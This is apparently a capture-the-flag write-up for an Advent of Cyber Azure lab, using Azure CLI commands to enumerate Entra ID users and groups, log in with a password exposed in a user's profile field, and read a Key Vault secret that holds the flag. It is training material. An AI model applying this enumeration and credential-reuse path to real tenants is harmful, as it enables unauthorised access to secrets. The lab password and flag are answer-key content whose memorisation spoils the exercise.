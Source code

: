 # (Day 16) - Advent of Cyber

## Azure

#### Azure Command Line

After logging into the Azure account and clicking on the terminal (selecting bash) we should have access to a shell after a few seconds.
Now in order to ensure we are logged in correctly we will run the following command:

```
az ad signed-in-user show
```

After running the following command we should obtain output similar to this:

```
{
  "@odata.context": "https://graph.microsoft.com/v1.0/$metadata#users/$entity",
  "businessPhones": [],
  "displayName": "usr-xxxxxxxx",
  "givenName": null,
  "id": "3970058b-7741-49c5-b1a7-191540995f7a",
  "jobTitle": null,
  "mail": null,
  "mobilePhone": null,
  "officeLocation": null,
  "preferredLanguage": null,
  "surname": null,
  "userPrincipalName": "usr-xxxxxxxx@aoc2024.onmicrosoft.com"
}
```

Now we have the correct user logged in we can start enumerating the Entra ID's using the following command:

```
az ad user list
```

However, this command would take a long time depending on the number of users, so we will need to filter the output to only look for wareville users (wvusr) using this command:

```
az ad user list --filter "startsWith('wvusr-', displayName)"
```

The output we obtain from this shows one user (wvuser-backupware) that has a password that is not hidden:

```
  {
    "businessPhones": [],
    "displayName": "wvusr-backupware",
    "givenName": null,
    "id": "1db95432-0c46-45b8-b126-b633ae67e06c",
    "jobTitle": null,
    "mail": null,
    "mobilePhone": null,
    "officeLocation": "R3c0v3r_s3cr3ts!",
    "preferredLanguage": null,
    "surname": null,
    "userPrincipalName": "wvusr-backupware@aoc2024.onmicrosoft.com"
  },
```

Now we can continue enumeration on the groups aswell using the following command:

```
az ad group list
```

After running the command we find an interesting group:

```
[
  {
    "description": "Group for recovering Wareville's secrets",
    "displayName": "Secret Recovery Group",
    "expirationDateTime": null,
  }
]
```

Now considering the description of the group, we should continue with trying to find the users that are a part of the group, we can do that with this command:

```
az ad group member list --group "Secret Recovery Group"
```

Running the command we gain confirmation that the user that has it's password publicly available is a part of the group:

```
[
  {
    "@odata.type": "#microsoft.graph.user",
    "businessPhones": [],
    "displayName": "wvusr-backupware",
  }
]
```

From all the above information, we can confirm that this specific account was where the attacker was able to escalate their privileges, so now we should log into this account and enumerate the roles and privileges that this user has. We can do this by:

```
az account clear
az login -u wvusr-backupware@aoc2024.onmicrosoft.com -p R3c0v3r_s3cr3ts!
```

Now to enumerate the roles and privileges we can run the following command:

```
az role assignment list --assignee 7d96660a-02e1-4112-9515-1762d0cb66b7 --all
```

There we discover two interesting roles that could be exploited:

```
[
  {
    "principalName": "Secret Recovery Group",
    "roleDefinitionName": "Key Vault Secrets User",
    "scope": "/subscriptions/{subscriptionId}/resourceGroups/rog-aoc-kv/providers/Microsoft.KeyVault/vaults/warevillesecrets",
  },
  {
    "principalName": "Secret Recovery Group",
    "roleDefinitionName": "Key Vault Reader",
    "scope": "/subscriptions/{subscriptionId}/resourceGroups/rog-aoc-kv/providers/Microsoft.KeyVault/vaults/warevillesecrets",
  }
]
```

Both Key Vault Secrets User and Key Vault Reader are roles that allow you to read and view keys which would allow access to accounts that a user should not.
Now we can check if the user is able to access the key vault using the following command:

```
az keyvault list
```

And receiving an output similar to this:

```
[
  {
    "id": "/subscriptions/{subscriptionId}/resourceGroups/rog-aoc-kv/providers/Microsoft.KeyVault/vaults/warevillesecrets",
    "location": "eastus",
    "name": "warevillesecrets",
    "resourceGroup": "rg-aoc-kv",
    "tags": {
      "aoc": "rg"
    },
    "type": "Microsoft.KeyVault/vaults"
  }
]
```

There we additionally discover the name of the vault which is warevillesecrets, now we have this information we can see if any secrets are stored in this vault using this command:

```
az keyvault secret list --vault-name warevillesecrets
```

From this command we see:

```
[
  {
    "id": "https://warevillesecrets.vault.azure.net/secrets/aoc2024",
    "managed": null,
    "name": "aoc2024",
    "tags": {}
  }
]
```

There we see the secret name, now using this name we can attempt to see the secret related to this name using the following command:

```
az keyvault secret show --vault-name warevillesecrets --name aoc2024
```

From there we see the following flag:

```
{
  "id": "https://warevillesecrets.vault.azure.net/secrets/aoc2024/20953fbf6d51464299b30c6356b378fd",
  "kid": null,
  "managed": null,
  "name": "aoc2024",
  "tags": {},
  "value": "WhereIsMyMind1999"
}
```

